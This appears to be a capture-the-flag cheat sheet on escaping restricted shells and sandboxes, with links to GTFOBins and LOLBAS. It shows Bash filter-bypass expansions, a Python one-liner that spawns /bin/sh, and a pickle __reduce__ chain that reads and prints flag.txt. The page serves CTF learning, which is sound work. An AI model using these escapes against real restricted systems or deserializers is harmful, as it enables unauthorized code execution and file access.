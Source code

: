 # Escape

## Homebrew shells

[List for \*nix](https://gtfobins.github.io/) \([Tool](https://github.com/mzfr/go-gtfo)\)  
[List for windows](https://lolbas-project.github.io/)

If the challenge is a homemade shell with some artificial limitations, gtfobins and LOLBAS list myriad ways to escape. These aren't vulnerabilities, per se, but intended functionality of applications that are commonly installed.

## Bash

[Good ideas](https://wiki.bash-hackers.org)  
[List of parameter expansions](https://wiki.bash-hackers.org/syntax/pe)

### Forbidden strings

```bash
${NOSUCHVAR:-fla}${NOSUCHVAR:-g.txt}    # expands to flag.txt
```

### Stars aren't the only wildcard

```bash
fla?.txt
fl{a,A}g.txt
fl[a-z]g.txt
```

## Python

[Tell me more](https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes)

Python has **so many** ways to introspect, reflect, reload, import, execute unintended code.

Here's a pretty simple one:

```python
import statistics
statistics.random._os._execvpe("/bin/sh", [], {})
```

### Pickle

[Source](https://gist.github.com/toblu302/364c3b474c4148295fdee9bd0207e758)

```python
#!/usr/bin/env python3

# From the error message we can see that only __main__, __buitin__ and copyreg are allowed
# __builtin__.eval and __builtin__.exec are banned as well
# We can just open and print the flag.txt by using __builin__.open, followed by readline and print
# This sequence of calls is constructed below by using multiple objects and the pickle __reduce__ interface

import base64
import builtins
import pickle

class FlagObjPickle:
    def __reduce__(self):
        return builtins.open, ("./flag.txt",)
    def readlines(self):
        pass

class ReadFlagPickle:
    def __reduce__(self):
        return FlagObjPickle().readlines, tuple()

class PrintFlagPickle:
    def __reduce__(self):
        return builtins.print, (ReadFlagPickle(),)

a = PrintFlagPickle()
pickled = pickle.dumps(a, 0)
```

Any callable in the target's namespace can be called with \(almost\) arbitrary parameters by pickling a class which implements `__reduce__`. Return the callable and a tuple of arguments. See above for a technique to chain as well.

## Docker

* [deepce](https://github.com/stealthcopter/deepce/), a vulnerability scanner.  
* [grype](https://github.com/anchore/grype), a vulnerability scanner.  
* [WhaleScan](https://github.com/nccgroup/whalescan), scans windows containers.

## Electron

[Tell me more](https://github.com/doyensec/awesome-electronjs-hacking)

[view-source:](https://twitter.com/HusseiN98D/status/1325464364569276417) isn't necessarily blocked like `file://` is. Perhaps the app even uses its own [custom URI scheme](https://twitter.com/zer0pwn/status/1325581291060826112)?

## Javascript

[Sandboxes](https://d0nut.medium.com/why-building-a-sandbox-in-pure-javascript-is-a-fools-errand-d425b77b2899)

